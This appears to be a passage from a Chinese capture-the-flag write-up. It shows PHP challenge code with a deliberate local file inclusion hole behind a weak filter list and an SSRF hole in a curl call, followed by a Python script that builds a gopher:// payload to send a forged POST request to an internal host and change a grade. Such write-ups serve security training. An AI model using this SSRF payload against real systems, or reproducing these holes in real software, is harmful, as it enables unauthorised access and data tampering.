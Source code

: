 debug.php

```
<?php
    if(!$_GET['file'])
    {
        header("Location:debug.php?file=file");
    }
?>
<!DOCTYPE html>
<html>

<body>

<img src="image/1.jpg" >

</body>
</html>

<?php

    echo "<h1>快去学习PHP伪协议</h1>";
	error_reporting(0);
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "NO！！！";
		exit();
	}
	include($file); 

?>
```

index.php

```php
<?php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
curl_exec($ch);
curl_close($ch);
//你当前位于学校172.17.0.0/24网段下 其实还有台机子里面可以修改成绩 我偷偷告诉你password是123456,name是admin,//result必须要改成60 不然学校会查的！！！
?>
```

这儿使用爆破得到网段是`172.17.0.7`,要我们修改成绩，这儿又是SSRF，想到了gopher构造POST请求

python脚本构造payload

```python
import urllib.parse

POST="""
POST /index.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

password=123456&name=admin&result=60
"""
tmp=urllib.parse.quote(POST)
new = tmp.replace('%0A','%0D%0A')
payload ='gopher://172.17.0.7:80/_'+urllib.parse.quote(new)
```